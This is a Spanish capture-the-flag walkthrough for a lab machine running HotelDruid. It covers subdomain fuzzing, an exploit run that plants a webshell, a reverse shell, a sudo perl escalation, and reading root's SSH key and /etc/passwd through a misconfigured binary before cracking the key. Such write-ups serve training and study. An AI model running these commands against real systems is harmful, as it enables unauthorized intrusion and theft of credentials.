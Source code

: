 Hacemos el escaneo de nmap:
![[Pasted image 20240302110052.png]]
Esto corre por el puerto 80:
![[Pasted image 20240302110118.png]]
Si lanzamos un whatweb nos encontramos con un email que nos indica un dominio:
![[Pasted image 20240302110241.png]]
Lo añadimos al archivo hosts:
![[Pasted image 20240302110312.png]]
Hacemos una búsqueda de subdominios con wfuzz y vemos el siguiente subdominio:
```bash
wfuzz -c --hc=404 --hl=616 -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.hotel.nyx" -u 192.168.0.28
```
![[Pasted image 20240302110816.png]]
![[Pasted image 20240302110842.png]]
Tenemos esta web que pone algo de hoteldruid:
![[Pasted image 20240302110951.png]]
Buscamos en github algún exploit y lo encontramos:
![[Pasted image 20240302111001.png]]
Probamos el exploit:
![[Pasted image 20240302111022.png]]
Y lo ejecutamos:
```bash
python3 exploit.py -t http://reservations.hotel.nyx/ --noauth
```

Vemos que ha insertado una CMD y nos pone justo la ruta para acceder a ella:
```bash
http://reservations.hotel.nyx/dati/selectappartamenti.php
```
![[Pasted image 20240302111332.png]]
![[Pasted image 20240302111315.png]]
Y ahora en este punto obtenemos una reverse shell url encodeada:
![[Pasted image 20240302111531.png]]
![[Pasted image 20240302111540.png]]
![[Pasted image 20240302111548.png]]
Y vemos que podemos ejecutar perl como el usuario sun:
![[Pasted image 20240302111648.png]]
Y ejecutamos el siguiente comando que podemos encontrar en gtfobins para convertirnos en el usuario sun:
```bash
sudo -u sun /usr/bin/perl -e 'exec "/bin/sh";'
```
![[Pasted image 20240302111749.png]]
Ahora si ejecutamos una búsqueda de binarios, nos llama la atención el binario de super:
![[Pasted image 20240302111832.png]]
Esto nos sale si lo ejecutamos:
![[Pasted image 20240302111924.png]]
Lo que nos hace pensar que al secret le podemos pasar algún archivo, por ejemplo el passwd, aunque se nos abre al reves:
```bash
/usr/bin/super secret /etc/passwd
```
![[Pasted image 20240302111944.png]]
Podemos leer el archivo id_rsa de root pasándole el comando rev para invertir el orden y así poder visualizarlo normal:
```bash
/usr/bin/super secret /root/.ssh/id_rsa | rev
```
![[Pasted image 20240302112114.png]]
Y ahora crackeamos este hash con john the ripper:
![[Pasted image 20240302112228.png]]
Y ahora podemos entrar ssh utilizando este salvoconducto:
![[Pasted image 20240302112351.png]]
